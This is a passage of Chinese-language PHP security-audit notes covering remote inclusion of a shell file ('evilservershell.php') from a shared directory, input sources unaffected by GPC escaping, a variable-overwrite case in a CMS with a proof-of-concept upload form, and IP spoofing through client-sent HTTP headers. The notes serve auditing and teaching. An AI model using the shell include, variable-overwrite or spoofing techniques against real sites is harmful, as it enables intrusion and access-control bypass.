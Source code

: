 
```php
## 访问共享目录
include ('\evilservershell.php');
```


## 提交参数无过滤

原理:过滤了GPC，但没有过滤其它部分。

```bash
上传文件相关变量如$_FIle
$_GET，$_POST，$_Cookie，$_SERVER，$_ENV，$_SESSION，$_REQUEST
HTTP_CLIENT_IP 和HTTP_XFORWORDFOR 中的ip不受gpc影响
$_HTTP_COOKIE_VARS
$_HTTP_ENV_VARS
$_HTTP_GET_VARS
$_HTTP_POST_FILES
$_HTTP_POST_VARS
$_HTTP_SERVER_VARS
```

案例：
```php
foreach($_COOKIE AS $_key=>$_value){
	unset($$_key);
}
foreach($_POST AS $_key=>$_value){
	!ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];
}
foreach($_GET AS $_key=>$_value){
	!ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];
}
```
通过表单来传值。
```html
<form method="post" action="http://localhost/qibo/member/comment.php?job=ifcom" enctype="multipart/form-data">
<input type="file" name="cidDB">  
<input type="submit">
</form>
```
这里的gid为查询参数
```php
$_SERVER                 //中用户能够控制的变量，php5.0后不受GPC影响
QUERY_STRING             //用户GET方法提交时的查询字符串
HTTP_REFERER             //用户请求的来源变量，在一些程序取得用户访问记录时用得比较多
HTTP_USER_AGENT          //用户的浏览器类型，也用于用户的访问记录的取得
HTTP_HOST                //提交的主机头等内容
HTTP_X_FORWARDED_FOR     //用户的代理主机的信息
```

## 伪造IP
原理:
以 HTTP_ 开头的 header,  均属于客户端发送的内容。那么，如果客户端伪造user-agent/referer/client-ip/x-forward-for,就可以达到伪造IP的目的,php5之后不受GPC影响。
```php
关键字：
HTTP_
getenv
$_SERVER
服务端：
echo getenv('HTTP_CLIENT_IP');
echo $_SERVER['REMOTE_ADDR']; //访问端（有可能是用户，有可能是代理的）IP
echo $_SERVER['HTTP_CLIENT_IP']; //代理端的（有可能存在，可伪造）
echo $_SERVER['HTTP_X_FORWARDED_FOR']; //用户是在哪个IP使用的代理（有可能存在，也可以伪造）
```